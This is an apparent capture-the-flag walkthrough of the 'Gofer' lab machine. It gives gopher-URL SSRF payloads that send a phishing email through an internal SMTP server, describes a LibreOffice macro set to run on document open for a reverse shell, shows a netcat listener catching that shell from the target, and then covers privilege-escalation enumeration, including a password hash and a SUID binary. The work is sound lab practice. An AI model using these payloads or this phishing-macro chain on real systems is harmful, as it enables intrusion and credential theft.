                author: $_SpyD3r_$                                                                                                                                                           
                                                                                                                                                                                             

Give Details to send mail: 

Mail from :  yovecio@gofer.htb
Mail To :  jdavis@gofer.htb 
Subject :  Invoice
Message :  Hi, can you check this invoice? http://10.10.16.3/invoice.odt 

Your gopher link is ready to send Mail:                                                                                                                                                      
                                                                                                                                                                                             
gopher://127.0.0.1:25/_MAIL%20FROM:yovecio%40gofer.htb%0ARCPT%20To:jdavis%40gofer.htb%0ADATA%0AFrom:yovecio%40gofer.htb%0ASubject:Invoice%0AMessage:Hi%2C%20can%20you%20check%20this%20invoice%3F%20http://10.10.16.3/invoice.odt%0A.

-----------Made-by-SpyD3r-----------
```

Now here is my first test, I am targeting the internal postfix server and sending a email to Joycelene which we know she failed several times for phishing so I'm using her as "lab rat".

I guess we have to use this string after the URL and it should resemble 

```
curl -X POST http://proxy.gofer.htb/index.php?url=<payload>
```

But we have to change the loopback address to the ip of the machine so it don't get stuck in the blacklisting filter.

```
POST /index.php?url=gopher://10.10.11.225:25/_MAIL%20FROM:yovecio%40gofer.htb%0ARCPT%20To:jdavis%40gofer.htb%0ADATA%0AFrom:yovecio%40gofer.htb%0ASubject:Invoice%0AMessage:Hi%2C%20can%20you%20check%20this%20invoice%3F%20http://10.10.16.3/invoice.odt%0A HTTP/1.1
Host: proxy.gofer.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

We don't get back a call in our NC, so let´s try to use a legit email as sender instead(might be that SMTP is not allowing anonymous users). But still not working so I guess we have to use the loopback address cause we have the port 25 oly accessible from the outside and using the IP from portal won´t see that open port!

So I checked via LFI the hosts file and we may be able to use just "gofer" to bypass blacklist filters:



After several test i relaized that Gopherus is not parsing right the smtp and is not injecting a newline between several parameters! So I got a manual template from Book hacktricks: 

```
gopher://gofer:25/xHELO%250d%250aMAIL%20FROM%3A%3yovecio@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjdavis@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BYovecio%5D%20%3Cyovecio@gofer.htb%3E%250d%250aTo%3A%20%3Cjdavis@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20%250d%250a%250d%250ahttp://10.10.16.3/invoice.odt%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```



Ok this time seems like the email get's sent but no link, I guess we have to encode the email with html to make the link clickable:

```
gopher://gofer:25/xHELO \r\n
MAIL FROM:<yovecio@gofer.htb> \r\n
RCPT TO:<jhudson@gofer.htb> \r\n
DATA \r\n
From: <yovecio@gofer.htb> \r\n
To: <jhudson@gofer.htb> \r\n

Subject: Invoice \r\n
\r\n

<a href='http://10.10.16.3/invoice.odt>Invoice</a> \r\n
\r\n
\r\n


. \r\n
QUIT \r\n
```

This have to be encoded as url:

```
xHELO gofer.htb%0d%0aMAIL FROM:<yovecio@gofer.htb>%0d%0aRCPT TO:<jhudson@gofer.htb>%0d%0aDATA%0d%0aFrom: [Yovecio] <yovecio@gofer.htb>%0d%0aTo: <jhudson@gofer.htb>%0d%0aDate: Tue, 15 Sep 2017 17:20:26 -0400%0d%0aSubject: Invoice%0d%0a%0d%0a<a href="http://10.10.16.3/invoice.odt">Invoice</a>%0d%0a%0d%0a%0d%0a.%0d%0aQUIT%0d%0a
```

P.S. The payload get´s double URL encoded and it's much easier by using Cyberchef! Which eventually made it working:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# php -S 0.0.0.0:80
[Fri Aug 25 14:40:03 2023] PHP 8.2.7 Development Server (http://0.0.0.0:80) started
[Fri Aug 25 14:56:01 2023] 10.10.11.225:54156 Accepted
[Fri Aug 25 14:56:01 2023] 10.10.11.225:54156 [404]: GET /invoice.odt%22 - No such file or directory
[Fri Aug 25 14:56:01 2023] 10.10.11.225:54156 Closing
```

Now that we have a working payload, we have to find a way to inject a revshell into a odt! I stumbled upon this one: 

```
https://stackoverflow.com/questions/2987427/run-shell-command-and-return-output-as-result-of-custom-function
```

And we can create a new odt file with LibreOffice writer, go into tools -> Macro - > Organize macro -> New macro





And now sending this file should get us a revshell! Unfortunately it's not working, the file get´s downloaded but no revshell pop back on the machine:



I see that %22 which in URL encoding trasnlated to " I guess we have to remove the double quotes from HREF:



And now get's parsed right but no shell:


From here I had to check for tips and apparenly creating the macro is not enoght, you have to tell to the odt to run a specifc macro when a user opens a file!

https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html

I did some changes:



The reason is that when I try to choose and assign a macro on even open document it doesn't let me chose outside standard catalog:



And this made it finally work, I was doing wrong by using macros in system and not saved directly under the document odt, plus I had some wront stuff in code which didn't let me chose to point the macro under invoice.odt and not My macros(local system).

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/TEMP]
└─# nc -lvnp 6666
listening on [any] 6666 ...
            
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.225] 41356
bash: cannot set terminal process group (3747): Inappropriate ioctl for device
bash: no job control in this shell
bash: /home/jhudson/.bashrc: Permission denied
jhudson@gofer:/usr/bin$ 
jhudson@gofer:/usr/bin$ ls
```

And doing so we can grab the first flag:

```
jhudson@gofer:~$ ls -al
ls -al
total 44
drwxr-xr-x 6 jhudson jhudson 4096 Jul 26 11:38 .
drwxr-xr-x 6 root    root    4096 Jul 19 12:44 ..
lrwxrwxrwx 1 root    root       9 Nov  3  2022 .bash_history -> /dev/null
-rw-r--r-- 1 jhudson jhudson  220 Oct 28  2022 .bash_logout
-rw-r--r-- 1 jhudson jhudson 3526 Oct 28  2022 .bashrc
drwxr-xr-x 4 jhudson jhudson 4096 Jul 19 12:44 .cache
drwx------ 3 jhudson jhudson 4096 Jul 19 12:44 .config
drwxrwxrwx 2 jhudson jhudson 4096 Aug 25 15:40 Downloads
drwx------ 3 jhudson jhudson 4096 Jul 19 12:44 .gnupg
-rw-r--r-- 1 jhudson jhudson  807 Oct 28  2022 .profile
-rw-r----- 1 root    jhudson   33 Aug 25 14:36 user.txt
-rw-r--r-- 1 jhudson jhudson   39 Jul 17 16:56 .vimrc
jhudson@gofer:~$ cat user.txt
cat user.txt
```

* * *

## Road to Root.txt:

Seems like we don't have anything in other users home:

```
hudson@gofer:/home/ablake$ ls -al
ls -al
total 24
drwxr-xr-x 2 ablake ablake 4096 Jul 19 12:44 .
drwxr-xr-x 6 root   root   4096 Jul 19 12:44 ..
lrwxrwxrwx 1 root   root      9 Nov  3  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ablake ablake  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ablake ablake 3526 Mar 27  2022 .bashrc
-rw-r--r-- 1 ablake ablake  807 Mar 27  2022 .profile
-rw-r--r-- 1 ablake ablake   39 Jul 17 16:56 .vimrc
jhudson@gofer:/home/ablake$ cd ..
cd ..
jhudson@gofer:/home$ ls -al
ls -al
total 24
drwxr-xr-x  6 root     root     4096 Jul 19 12:44 .
drwxr-xr-x 18 root     root     4096 Jul 19 12:44 ..
drwxr-xr-x  2 ablake   ablake   4096 Jul 19 12:44 ablake
drwxr-xr-x  2 jdavis   jdavis   4096 Jul 19 12:44 jdavis
drwxr-xr-x  6 jhudson  jhudson  4096 Jul 26 11:38 jhudson
drwxr-xr-x  3 tbuckley tbuckley 4096 Jul 19 12:44 tbuckley
jhudson@gofer:/home$ cd jdavis
cd jdavis
jhudson@gofer:/home/jdavis$ ls
ls
jhudson@gofer:/home/jdavis$ ls -al
ls -al
total 24
drwxr-xr-x 2 jdavis jdavis 4096 Jul 19 12:44 .
drwxr-xr-x 6 root   root   4096 Jul 19 12:44 ..
lrwxrwxrwx 1 root   root      9 Nov  3  2022 .bash_history -> /dev/null
-rw-r--r-- 1 jdavis jdavis  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 jdavis jdavis 3526 Mar 27  2022 .bashrc
-rw-r--r-- 1 jdavis jdavis  807 Mar 27  2022 .profile
-rw-r--r-- 1 jdavis jdavis   39 Jul 17 16:56 .vimrc
jhudson@gofer:/home/jdavis$ cd ..
cd ..
jhudson@gofer:/home$ ls
ls
ablake
jdavis
jhudson
tbuckley
jhudson@gofer:/home$ cd tbuckley
cd tbuckley
jhudson@gofer:/home/tbuckley$ ls -al
ls -al
total 28
drwxr-xr-x 3 tbuckley tbuckley 4096 Jul 19 12:44 .
drwxr-xr-x 6 root     root     4096 Jul 19 12:44 ..
lrwxrwxrwx 1 root     root        9 Nov  3  2022 .bash_history -> /dev/null
-rw-r--r-- 1 tbuckley tbuckley  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 tbuckley tbuckley 3526 Mar 27  2022 .bashrc
drwxr-xr-x 3 tbuckley tbuckley 4096 Jul 19 12:44 .local
-rw-r--r-- 1 tbuckley tbuckley  807 Mar 27  2022 .profile
lrwxrwxrwx 1 root     root        9 Jul 19 12:39 .python_history -> /dev/null
-rw-r--r-- 1 tbuckley tbuckley   39 Jul 17 16:56 .vimrc
jhudson@gofer:/home/tbuckley$ cat  .local
cat  .local
cat: .local: Is a directory
jhudson@gofer:/home/tbuckley$ cd .local
cd .local
jhudson@gofer:/home/tbuckley/.local$ ls
ls
share
jhudson@gofer:/home/tbuckley/.local$ cd share
cd share
bash: cd: share: Permission denied
jhudson@gofer:/home/tbuckley/.local$ ls -al 
ls -al
total 12
drwxr-xr-x 3 tbuckley tbuckley 4096 Jul 19 12:44 .
drwxr-xr-x 3 tbuckley tbuckley 4096 Jul 19 12:44 ..
drwx------ 3 tbuckley tbuckley 4096 Jul 19 12:44 share
jhudson@gofer:/home/tbuckley/.local$
```

All the mails are void exept the jhudson one:

```
jhudson@gofer:/var/mail$ ls -al
ls -al
total 12
drwxrwsr-x  2 root    mail 4096 Aug 25 15:39 .
drwxr-xr-x 12 root    root 4096 Jul 19 12:44 ..
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 ablake -> /dev/null
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 jdavis -> /dev/null
-rw-r-----  1 jhudson mail    1 Aug 25 15:46 jhudson
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 root -> /dev/null
lrwxrwxrwx  1 root    mail    9 Nov  3  2022 tbuckley -> /dev/null
jhudson@gofer:/var/mail$
```

I will upload Linpeas and check from there!

```
OS: Linux version 5.10.0-23-amd64 (debian-kernel@lists.debian.org) (gcc-10 (Debian 10.2.1-6) 10.2.1 20210110, GNU ld (GNU Binutils for Debian) 2.35.2) #1 SMP Debian 5.10.179-2 (2023-07-14)
User & Groups: uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)
Hostname: gofer.htb
Writable folder: /dev/shm

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                                                                       
uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)
uid=1001(jdavis) gid=1001(jdavis) groups=1001(jdavis)
uid=1002(tbuckley) gid=1002(tbuckley) groups=1002(tbuckley),1004(dev)
uid=1003(ablake) gid=1003(ablake) groups=1003(ablake)


╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 47 Nov  3  2022 /etc/apache2/.htpasswd                                                                                                                                
tbuckley:$apr1$YcZb9OIz$fRzQMx20VskXgmH65jjLh/


══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                           
                      ╚════════════════════════════════════╝                                                                                                                                 
╔══════════╣ SUID - Check easy privesc, exploits and write perms
-rwsr-s--- 1 root dev 17K Apr 28 16:06 /usr/local/bin/notes (Unknown SUID binary!)


Files with capabilities (limited to 50):
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/tcpdump cap_net_admin,cap_net_raw=eip


/home/tbuckley/.python_history
```

Now here we have several way's in, we know Jdavis is part of netdev group which makes me wonder if the server is vulnerable to DirtyPipe?

We have a password hash of tbuckley to reset and lastly we have that strange root binary with suid permissions!

I will start by trying to crack tbucket password: